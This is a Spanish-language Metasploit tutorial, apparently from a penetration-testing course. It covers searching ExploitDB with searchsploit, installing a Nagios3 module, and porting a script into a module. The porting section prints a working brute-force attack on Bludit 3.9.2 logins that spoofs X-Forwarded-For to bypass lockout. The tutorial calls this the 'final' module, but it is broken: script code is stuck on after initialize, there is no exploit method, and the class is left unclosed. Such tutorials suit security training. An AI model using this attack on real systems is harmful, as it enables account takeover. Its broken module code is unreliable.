

# Writing and Importing Modules

Para instalar cualquier nuevo módulo de Metasploit que ya ha sido portado por otros usuarios, se puede optar por actualizar `msfconsole` desde la terminal, lo que asegurará que todos los últimos exploits, auxiliares y características se instalen en la versión más reciente de `msfconsole`. Siempre que los módulos portados se hayan enviado a la rama principal del framework Metasploit en GitHub, deberíamos estar actualizados con los últimos módulos.

Sin embargo, si solo necesitamos un módulo específico y no queremos realizar una actualización completa, podemos descargar ese módulo e instalarlo manualmente. Nos centraremos en buscar en ExploitDB módulos de Metasploit disponibles que podamos importar directamente a nuestra versión local de `msfconsole`.

ExploitDB es una excelente opción al buscar un exploit personalizado. Podemos usar etiquetas para buscar a través de los diferentes escenarios de explotación para cada script disponible. Una de estas etiquetas es **Metasploit Framework (MSF)**, que, si se selecciona, mostrará solo scripts que también están disponibles en formato de módulo de Metasploit. Estos pueden ser descargados directamente de ExploitDB e instalados en nuestro directorio local de Metasploit Framework, desde donde pueden ser buscados y llamados desde dentro de `msfconsole`.

<figure><figcaption></figcaption></figure>

Supongamos que queremos usar un exploit encontrado para Nagios3, que aprovechará una vulnerabilidad de inyección de comandos. El módulo que estamos buscando es **Nagios3 - 'statuswml.cgi' Command Injection (Metasploit)**. Entonces, iniciamos `msfconsole` y tratamos de buscar ese exploit específico, pero no podemos encontrarlo. Esto significa que nuestro framework Metasploit no está actualizado o que el módulo específico de exploit para Nagios3 que estamos buscando no está en la versión oficial actualizada del Metasploit Framework.

## Búsqueda de Exploits en MSF

```plaintext
msf6 > search nagios
```

**Módulos Coincidentes**

```yaml
   #  Nombre                                                          Fecha de Divulgación  Rango       Comprobar  Descripción
   -  ----                                                          ---------------------  ----       -------  ----------- 
   0  exploit/linux/http/nagios_xi_authenticated_rce                2019-07-29            excelente  Sí       Ejecución Remota de Comandos Autenticados de Nagios XI
   1  exploit/linux/http/nagios_xi_chained_rce                      2016-03-06            excelente  Sí       Ejecución Remota de Código Enlazado de Nagios XI
   2  exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo  2018-04-17            manual     Sí       Ejecución Remota de Código Enlazado de Nagios XI
   3  exploit/linux/http/nagios_xi_magpie_debug                     2018-11-14            excelente  Sí       Ejecución Remota de Código Raíz en nagios XI Magpie_debug.php
   4  exploit/linux/misc/nagios_nrpe_arguments                      2013-02-21            excelente  Sí       Ejecución de Comandos Arbitrarios del Ejecutador de Plugins Remotos de Nagios
   5  exploit/unix/webapp/nagios3_history_cgi                       2012-12-09            excelente  Sí       Ejecución de Comandos en nagios3 history.cgi
   6  exploit/unix/webapp/nagios_graph_explorer                     2012-11-30            excelente  Sí       Ejecución de Comandos del Componente de Explorador de Gráficos de Monitoreo de Red Nagios XI
   7  post/linux/gather/enum_nagios_xi                              2018-04-17            normal     No       Enumeración de Nagios XI
```

No obstante, podemos encontrar el código del exploit dentro de las entradas de ExploitDB. Alternativamente, si no queremos usar nuestro navegador web para buscar un exploit específico dentro de ExploitDB, podemos usar la versión de línea de comandos, `searchsploit`.

#### Búsqueda con searchsploit

```bash
sherlock28@htb[/htb]$ searchsploit nagios3
```

**Resultados de Búsqueda**

```bash
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Título del Exploit                                                                                                                          |  Ruta
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nagios3 - 'history.cgi' Ejecución de Comandos en el Host (Metasploit)                                                                     | linux/remote/24159.rb
Nagios3 - 'history.cgi' Ejecución Remota de Comandos                                                                                     | multiple/remote/24084.py
Nagios3 - 'statuswml.cgi' Ejecución de Comandos 'Ping' (Metasploit)                                                                     | cgi/webapps/16908.rb
Nagios3 - 'statuswml.cgi' Inyección de Comandos (Metasploit)                                                                              | unix/webapps/9861.rb
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Resultados
```

Nota que los archivos terminados en `.rb` son scripts en Ruby que muy probablemente han sido elaborados específicamente para su uso dentro de `msfconsole`. También podemos filtrar solo por archivos con terminación `.rb` para evitar resultados de scripts que no pueden ejecutarse dentro de `msfconsole`. No todos los archivos `.rb` se convierten automáticamente en módulos de `msfconsole`. Algunos exploits están escritos en Ruby sin tener código compatible con módulos de Metasploit. Veremos uno de estos ejemplos en la siguiente subsección.

#### Filtrar Resultados con searchsploit

```bash
sherlock28@htb[/htb]$ searchsploit -t nagios3 --exclude=".py"
```

**Resultados Filtrados**

```bash
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Título del Exploit                                                                                                                          |  Ruta
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nagios3 - 'history.cgi' Ejecución de Comandos en el Host (Metasploit)                                                                     | linux/remote/24159.rb
Nagios3 - 'statuswml.cgi' Ejecución de Comandos 'Ping' (Metasploit)                                                                     | cgi/webapps/16908.rb
Nagios3 - 'statuswml.cgi' Inyección de Comandos (Metasploit)                                                                              | unix/webapps/9861.rb
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Resultados
```

Debemos descargar el archivo `.rb` y colocarlo en el directorio correcto. El directorio predeterminado donde se almacenan todos los módulos, scripts, complementos y archivos propietarios de `msfconsole` es `/usr/share/metasploit-framework`. Las carpetas críticas también están vinculadas simbólicamente en nuestras carpetas de inicio y raíz en la ubicación oculta `~/.msf4/`.

## Estructura de Directorios de MSF

```bash
sherlock28@htb[/htb]$ ls /usr/share/metasploit-framework/
```

**Estructura de Directorios**

```arduino
app     db             Gemfile.lock                  modules     msfdb            msfrpcd    msf-ws.ru  ruby             script-recon  vendor
config  documentation  lib                           msfconsole  msf-json-rpc.ru  msfupdate  plugins    script-exploit   scripts
data    Gemfile        metasploit-framework.gemspec  msfd        msfrpc           msfvenom   Rakefile   script-password  tools
```

```bash
sherlock28@htb[/htb]$ ls .msf4/
```

**Estructura de Directorios en .msf4**

```bash
history  local  logos  logs  loot  modules  plugins  store
```

Copiamos el exploit en el directorio apropiado después de descargarlo. Nota que nuestra carpeta de inicio en la ubicación `.msf4` podría no tener toda la estructura de carpetas que tiene la de `/usr/share/metasploit-framework/`. Por lo tanto, solo necesitamos crear las carpetas apropiadas para que la estructura sea la misma que la del directorio original, de modo que `msfconsole` pueda encontrar los nuevos módulos. Después de eso, procederemos a copiar el script `.rb` directamente a la ubicación principal.

Es importante mencionar que hay ciertas convenciones de nomenclatura que, si no se respetan adecuadamente, generarán errores al intentar que `msfconsole` reconozca el nuevo módulo que instalamos. Siempre usa `snake-case`, caracteres alfanuméricos y guiones bajos en lugar de guiones.

#### Ejemplo de Nombres de Archivos

```
nagios3_command_injection.rb
our_module_here.rb
```

## Carga de Módulos Adicionales en Tiempo de Ejecución

```bash
sherlock28@htb[/htb]$ cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb
sherlock28@htb[/htb]$ msfconsole -m /usr/share/metasploit-framework/modules/
```

## Cargando Módulos Adicionales

Para cargar módulos adicionales en Metasploit, puedes usar el comando `loadpath`. Por ejemplo:

```shell
shellCopiar códigomsf6> loadpath /usr/share/metasploit-framework/modules/
```

Alternativamente, también puedes iniciar `msfconsole` y ejecutar el comando `reload_all` para que el nuevo módulo instalado aparezca en la lista. Después de ejecutar el comando y no se informan errores, puedes utilizar la función `search [nombre]` dentro de `msfconsole` o usar directamente `use [ruta-del-módulo]` para acceder al módulo recién instalado.

Ejemplo de comandos:

```bash
msf6 > reload_all
msf6 > use exploit/unix/webapp/nagios3_command_injection 
msf6 exploit(unix/webapp/nagios3_command_injection) > show options
```

Cuando ejecutas `show options`, verás algo similar a esto:

```bash
Module options (exploit/unix/webapp/nagios3_command_injection):

   Name     Current Setting                 Required  Description
   ----     ---------------                 --------  -----------
   PASS     guest                           yes       La contraseña para autenticar.
   Proxies                                  no        Una cadena de proxy en formato tipo:host:puerto[,tipo:host:puerto][...]
   RHOSTS                                   yes       El host o hosts de destino, rango o identificador CIDR.
   RPORT    80                              yes       El puerto de destino (TCP).
   SSL      false                           no        Negociar SSL/TLS para conexiones salientes.
   URI      /nagios3/cgi-bin/statuswml.cgi  yes       La ruta URI completa a statuswml.cgi.
   USER     guest                           yes       El nombre de usuario para autenticar.
   VHOST                                    no        Host virtual del servidor HTTP.
```

## Portando Scripts a Módulos de Metasploit

Para adaptar un script de explotación personalizado (en Python, PHP u otro tipo) a un módulo de Ruby para Metasploit, necesitamos aprender el lenguaje de programación Ruby. Ten en cuenta que los módulos de Ruby para Metasploit siempre están escritos utilizando tabulaciones duras.

Cuando comenzamos un proyecto de portado, no necesitamos empezar a codificar desde cero. En su lugar, podemos tomar uno de los módulos de explotación existentes de la categoría en la que se encaja nuestro proyecto y reutilizarlo para nuestro script de portado actual. Es importante mantener nuestros módulos personalizados organizados para que otros testers de penetración puedan beneficiarse de un entorno limpio y organizado al buscar módulos personalizados.

1. Selecciona un código de explotación para portarlo a Metasploit. En este caso, vamos a trabajar con "Bludit 3.9.2 - Bypass de mitigación de fuerza bruta de autenticación". Necesitamos descargar el script `48746.rb` y copiarlo a la carpeta `/usr/share/metasploit-framework/modules/exploits/linux/http/`.
2.  Usa el siguiente comando para copiar el archivo:

    ```bash
    cp ~/Downloads/48746.rb /usr/share/metasploit-framework/modules/exploits/linux/http/bludit_auth_bruteforce_mitigation_bypass.rb
    ```
3. Abre el archivo que copiaste. En la parte superior, encontrarás las declaraciones `include`, que son los mixins necesarios para el módulo. Necesitamos cambiar estos a los apropiados para nuestro módulo.

Para encontrar los mixins, clases y métodos necesarios para que nuestro módulo funcione, consulta la documentación de Rubydoc de Rapid7.

## Escritura del Módulo

Durante evaluaciones específicas, a menudo nos enfrentamos a redes personalizadas que ejecutan código propietario. Muchos de los módulos disponibles no son efectivos contra su perímetro, y puede ser difícil escanear y documentar el objetivo correctamente. Aquí es donde puede ser útil usar nuestras habilidades en Ruby para comenzar a codificar nuestros módulos.

Toda la información necesaria sobre la codificación en Ruby para Metasploit se puede encontrar en la página de Rubydoc.info relacionada con el Framework.

Aquí hay un ejemplo de cómo puede verse el inicio de un módulo de explotación:

```ruby
##
# Este módulo requiere Metasploit: https://metasploit.com/download
# Fuente actual: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
```

```ruby
def initialize(info={})
  super(update_info(info,
    'Name'           => "Vulnerabilidad de Subida de Archivos de Imagen por Recorrido de Directorios en Bludit",
    'Description'    => %q{
      Este módulo explota una vulnerabilidad en Bludit. Un usuario remoto podría abusar del parámetro uuid en la función de carga de imágenes para guardar una carga maliciosa en cualquier parte del servidor, y luego usar un archivo .htaccess personalizado para eludir la verificación de la extensión del archivo y finalmente lograr la ejecución remota de código.
    },
    'License'        => MSF_LICENSE,
    'Author'         =>
      [
        'christasa', # Descubrimiento original
        'sinn3r'     # Módulo de Metasploit
      ],
    'References'     =>
      [
        ['CVE', '2019-16113'],
        ['URL', 'https://github.com/bludit/bludit/issues/1081'],
        ['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
      ],
    'Platform'       => 'php',
    'Arch'           => ARCH_PHP,
    'Notes'          =>
      {
        'SideEffects' => [ IOC_IN_LOGS ],
        'Reliability' => [ REPEATABLE_SESSION ],
        'Stability'   => [ CRASH_SAFE ]
      },
    'Targets'        =>
      [
        [ 'Bludit v3.9.2', {} ]
      ],
    'Privileged'     => false,
    'DisclosureDate' => "2019-09-07",
    'DefaultTarget'  => 0))
```

### Prueba de Concepto - Funciones

```ruby
register_options(
    [
      OptString.new('TARGETURI', [true, 'La ruta base para Bludit', '/']),
      OptString.new('BLUDITUSER', [true, 'El nombre de usuario para Bludit']),
      OptString.new('BLUDITPASS', [true, 'La contraseña para Bludit'])
    ])
end
```

Al observar nuestro exploit, vemos que se requerirá una lista de palabras en lugar de la variable `BLUDITPASS` para que el módulo realice un ataque de fuerza bruta contra las contraseñas para el mismo nombre de usuario. Se vería algo así en el siguiente fragmento:

```ruby
OptPath.new('PASSWORDS', [ true, 'La lista de contraseñas',
        File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
```

El resto del código del exploit necesita ser ajustado de acuerdo con las clases, métodos y variables utilizados en la adaptación al Framework Metasploit para que el módulo funcione al final. La versión final del módulo se vería así:

### Prueba de Concepto

```ruby
##
# Este módulo requiere Metasploit: https://metasploit.com/download
# Fuente actual: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Bypass de Mitigación de Fuerza Bruta en la Autenticación",
      'Description'    => %q{
        Las versiones anteriores e incluyendo la 3.9.2 del CMS Bludit son vulnerables a un bypass del mecanismo anti-fuerza bruta que está en su lugar para bloquear a los usuarios que han intentado iniciar sesión incorrectamente diez veces o más. Dentro del archivo bl-kernel/security.class.php, una función llamada getUserIp intenta determinar la dirección IP válida del usuario final confiando en los encabezados HTTP X-Forwarded-For y Client-IP.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Descubrimiento original
          '0ne-nine9'  # Módulo de Metasploit
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))
      
   register_options(
    [
      OptString.new('TARGETURI', [true, 'La ruta base para Bludit', '/']),
      OptString.new('BLUDITUSER', [true, 'El nombre de usuario para Bludit']),
      OptPath.new('PASSWORDS', [ true, 'La lista de contraseñas',
        File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
    ])
  end
  
  # -- Código de Exploit -- #
  # Solución sucia para eliminar esta advertencia:
  # Cookie#domain ahora devuelve un nombre de dominio sin punto. Usa Cookie#dot_domain si necesitas "." al principio.
  # Ver https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Intentando la contraseña: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Contraseña encontrada: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
#  puts e.message
#end
```

Si deseas aprender más sobre cómo adaptar scripts al Framework Metasploit, consulta el libro _Metasploit: A Penetration Tester's Guide_ de No Starch Press. Rapid7 también ha creado publicaciones en su blog sobre este tema, que se pueden encontrar aquí.

